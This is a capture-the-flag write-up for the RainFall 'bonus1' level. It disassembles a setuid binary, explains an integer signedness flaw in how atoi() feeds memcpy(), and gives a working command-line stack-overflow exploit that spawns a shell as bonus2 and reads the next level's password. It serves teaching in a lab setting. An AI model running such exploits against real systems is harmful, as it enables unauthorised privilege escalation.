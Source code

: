 # Bonus1

## Walkthrough

We list the files in the current home directory.

```bash
bonus1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
bonus1@RainFall:~$ file bonus1 
bonus1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x5af8fd13428afc6d05de1abfa9d7e7621df174c7, not stripped
```

The file is owned by **bonus2** and has the setuid bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482d4  _init
0x08048320  memcpy
0x08048320  memcpy@plt
0x08048330  __gmon_start__
0x08048330  __gmon_start__@plt
0x08048340  __libc_start_main
0x08048340  __libc_start_main@plt
0x08048350  execl
0x08048350  execl@plt
0x08048360  atoi
0x08048360  atoi@plt
0x08048370  _start
0x080483a0  __do_global_dtors_aux
0x08048400  frame_dummy
0x08048424  main
0x080484b0  __libc_csu_init
0x08048520  __libc_csu_fini
0x08048522  __i686.get_pc_thunk.bx
0x08048530  __do_global_ctors_aux
0x0804855c  _fini
```

There is only 1 user-defined functions: `main()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:    add    eax,0x4
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    eax,0x1
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:    add    eax,0x8
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:    mov    edx,eax
   0x08048464 <+64>:    lea    eax,[esp+0x14]
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    eax,0x0
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

The `main()` function:
- calls `atoi()` to convert `argv[1]` into an `int`
- compares the result and exits if it is greater than 9
- calls `memcpy()` to copy `argv[2]` to the stack for a size of `result of atoi() * 4`
- compares the value located where the result of `atoi()` was stored and exits if it is not equal to `0x574f4c46`
- calls `execl()` to execute `/bin/sh`

We draw a diagram of the `main()` stack frame.

![Diagram of the main() stack frame](./resources/bonus1_diagram1.png)

To overwrite the value of the result of `atoi()`, we have to pass a string of 40 bytes followed by the value `0x574f4c46`.  
But we are facing a problem: we can only pass a value of 9 or less as `argv[1]`. As seen above, this number is then gonna be multiplied by 4 and be used as the size for the call to `memcpy()`. It means we can only write up to 36 characters, but we must write 44.

If we pay attention to the functions signatures of `atoi()` and `memcpy()`, we notice that one accepts an **int**, and the other an **unsigned int**.  
We know that if a negative **int** is converted to an **unsigned int** (on 32 bits), it will be represented as `2 ** 32 - negative_value`.

We set a breakpoint before `memcpy()`, run the executable with different negative numbers, and check the third value from the top of the stack to compare it with the one we expect: 44.

```
(gdb) b *0x08048473
Breakpoint 1 at 0x8048473
(gdb) r -2147483631 AAAA
Starting program: /home/user/bonus1/bonus1 -2147483631 AAAA

Breakpoint 1, 0x08048473 in main ()
(gdb) i r esp
esp            0xbffff5b0       0xbffff5b0
(gdb) x/4wx 0xbffff5b0
0xbffff5b0:     0xbffff5c4      0xbffff800      0x00000044      0x080482fd
```

After some attempts, we find that we have to pass the string `-2147483631` in `argv[1]` to copy 44 bytes during the call to `memcpy()`.

We then pass a string of 40 placeholder characters followed by the value `0x574f4c46` as `argv[2]`.

```bash
bonus1@RainFall:~$ ./bonus1 $(python -c "print('-2147483631')") $(python -c "print('A' * 40 + '\x46\x4c\x4f\x57')")
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## Resources

- [What happens if I assign a negative value to an unsigned variable?](https://stackoverflow.com/questions/2711522/what-happens-if-i-assign-a-negative-value-to-an-unsigned-variable)
